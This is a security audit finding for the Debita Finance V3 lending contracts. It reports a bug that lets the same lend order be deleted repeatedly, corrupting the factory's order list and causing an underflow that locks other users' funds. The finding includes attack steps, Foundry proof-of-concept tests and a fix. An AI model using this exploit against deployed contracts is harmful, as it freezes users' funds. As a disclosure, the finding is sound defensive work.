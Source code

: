 Magnificent Viridian Cobra

High

# A malicous user could delete the same `lendOffer` multiple times, causing DOS

### Summary

Deleting multiple times the same `lendOffer` will  corrupt  the data in the  `DLOFactory::allActiveLendOrders` mapping, which is used for searching of possible lend offers for creation of loan. A malicious user could delete all of the entires in the mapping setting them to `address(0)` and setting the `activeOrdersCount` back to 0 as there are no active lend offers. This will cause an underflow when other users are trying to cancel their orders, leaving them unable to withdraw their available funds, locking them in the contract, slso the `matchOffersV3` will revert with underflow  when lendOffer that has to be deleted after the successful matching(cause left without available amount), if such attack happens. 



Deleting the same `lendOffer` multiple times can corrupt the `DLOFactory::allActiveLendOrders` mapping, which is used to find lend offers for loans. A malicious user can exploit this to: 
1. Set all entries in the mapping to `address(0)`, effectively deleting them.
2. Reset the activeOrdersCount to 0, as though there are no active lend offers.

### Root Cause

In [DebitaLendOffer-Implementation.sol:171](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L178) the variable `isActive` is not being set to `false` before deleting the order, that allows the action to be repeated multiple times, calling the `deleteOrder` multiple times till the list of active orders is emptied.

### Internal pre-conditions

1. There should be some active lend orders in the protocol.

### External pre-conditions

_No response_

### Attack Path

1. User needs to call `createLendOrder` with `_startedLendingAmount=0`, which makes the attack even easier since there is no check for creation of 0 principle amount lend orders.
2. Then user needs to call `changePerpetual(false)` on his lending order multiple times to wipe out the `allActiveLendOrders` mapping and set the `activeOrdersCount` back to 0. 

Another attack path: 
1. User can add funds to a cancelled offer  calling `addFunds` and than call `cancelOffer` to withdraw his funds and delete the already deleted order which will again cause disruption in the data structure in the Factory contract.

### Impact
This could lead to: 

1. Underflow on  lendOffer canceletion: When other users try to cancel their orders, they are unable to do so, because the `deleteOrder` function will cause an underflow, locking their funds in the contract, preventing withdrawal.
2. Reverts on matching : The `matchOffersV3` function fails (due to underflow) when it tries to delete a lendOffer that becomes empty after a successful match.
This attack could disrupt the system, leaving users' funds locked and breaking key functionality.

### PoC

In the `BasicDebitaAggregator.t.sol add this test showing how MatchOffersV3 function will break:
```solidity
function testMatchOffersWontWork() public {
        address attacker = makeAddr("attacker");
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        oraclesActivated[0] = false;
        uint256[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        ltvs[0] = 0;
        address[] memory acceptedPrinciples = allDynamicData.getDynamicAddressArray(1);
        acceptedPrinciples[0] = AERO;
        address[] memory oraclesPrinciples = allDynamicData.getDynamicAddressArray(1);
        oraclesPrinciples[0] = address(0x0);
        uint256[] memory ratio = allDynamicData.getDynamicUintArray(1);
        ratio[0] = 1e18;

        vm.startPrank(attacker);
        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedPrinciples,
            AERO,
            oraclesPrinciples,
            ratio,
            address(0x0),
            0
        );
        DLOImplementation(lendOrderAddress).changePerpetual(false);
        DLOImplementation(lendOrderAddress).changePerpetual(false);
        vm.stopPrank();

        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint256[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(1);
        uint256[] memory porcentageOfRatioPerLendOrder = allDynamicData.getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint256[] memory indexForPrinciple_BorrowOrder = allDynamicData.getDynamicUintArray(1);
        uint256[] memory indexForCollateral_LendOrder = allDynamicData.getDynamicUintArray(1);
        uint256[] memory indexPrinciple_LendOrder = allDynamicData.getDynamicUintArray(1);
        indexForPrinciple_BorrowOrder[0] = 0;
        indexForCollateral_LendOrder[0] = 0;
        indexPrinciple_LendOrder[0] = 0;

        lendOrders[0] = address(LendOrder);
        lendAmountPerOrder[0] = 5e18;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = AERO;
        
        vm.expectRevert();
        DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );
    }
```

This test shows how the cancelOrder will be DOSed: 

```solidity
function testLendOrderCannotBeCancelled() public {
        address attacker = makeAddr("attacker");
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        oraclesActivated[0] = false;
        uint256[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        ltvs[0] = 0;
        address[] memory acceptedPrinciples = allDynamicData.getDynamicAddressArray(1);
        acceptedPrinciples[0] = AERO;
        address[] memory oraclesPrinciples = allDynamicData.getDynamicAddressArray(1);
        oraclesPrinciples[0] = address(0x0);
        uint256[] memory ratio = allDynamicData.getDynamicUintArray(1);
        ratio[0] = 1e18;

        vm.startPrank(attacker);
        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedPrinciples,
            AERO,
            oraclesPrinciples,
            ratio,
            address(0x0),
            0
        );
        DLOImplementation(lendOrderAddress).changePerpetual(false);
        DLOImplementation(lendOrderAddress).changePerpetual(false);
        vm.stopPrank();
        vm.expectRevert();
        LendOrder.cancelOffer();
    }

```
    

### Mitigation

In all cases where there are operations with lend orders require that the order is active before proceeding with some actions: 
Example: 
```diff
function cancelOffer() public onlyOwner nonReentrant {
+      require(isActive, "Offer is not active");
        uint availableAmount = lendInformation.availableAmount;
        lendInformation.perpetual = false;
        lendInformation.availableAmount = 0;
        require(availableAmount > 0, "No funds to cancel");
        isActive = false;

        SafeERC20.safeTransfer(
            IERC20(lendInformation.principle),
            msg.sender,
            availableAmount
        );
        IDLOFactory(factoryContract).emitDelete(address(this));
        IDLOFactory(factoryContract).deleteOrder(address(this));
        // emit canceled event on factory
    }
```

Also make sure the `isActive` variable is always set to false before deleting an order. 